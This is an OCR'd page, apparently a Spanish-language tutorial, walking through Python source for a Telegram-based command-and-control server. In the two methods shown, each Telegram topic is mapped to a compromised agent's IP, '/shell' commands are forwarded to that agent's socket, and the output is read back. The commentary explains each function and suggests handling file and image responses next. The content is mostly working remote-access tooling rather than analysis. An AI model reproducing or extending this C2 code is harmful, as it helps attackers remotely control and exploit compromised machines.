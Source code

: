 
```python
    def handle_command(self, message):

        if message.message_thread_id is None:
            self.handle_global_command(message)
            return

        conn = sqlite3.connect("agents.db")
        cursor = conn.cursor()
        cursor.execute("SELECT ip FROM clients WHERE topic_id = ?", (message.message_thread_id,))
        client = cursor.fetchone()
        conn.close()
        
        if not client:
            return
        
        client_ip = client[0]
        text = message.text.lower()

        if text == "/status":
            self.check_bot_status(client_ip, message.message_thread_id)
            return

        elif text.startswith("/shell"):
            command = text.replace("/shell ", "")
            self.send_command_to_client(self.clients[client_ip], command, message.message_thread_id)

        elif text == "/delete":
            bot.delete_forum_topic(C2_CHANNEL_ID, message.message_thread_id)
```

Esta función es la encargada de *analizar el mensaje* que se ha enviado por el grupo y si es algun comando ejecuta la debida función

---

```python
    def send_command_to_client(self, client_socket, command, topic_id):
        try:
            client_socket.socket.send(command)
            
            response = self.recv_all(client_socket.socket).strip()

        except Exception as e:
            bot.send_message(C2_CHANNEL_ID, f"❌ Error executing the command: {e}", message_thread_id=topic_id)
```

Esta función se encarga de enviar el comando a el agente y esperar una respuesta

Aquí ya se podría a empezar a aplicar condicionales para tratar diferente las respuestas en base si son un archivo o una imagen

---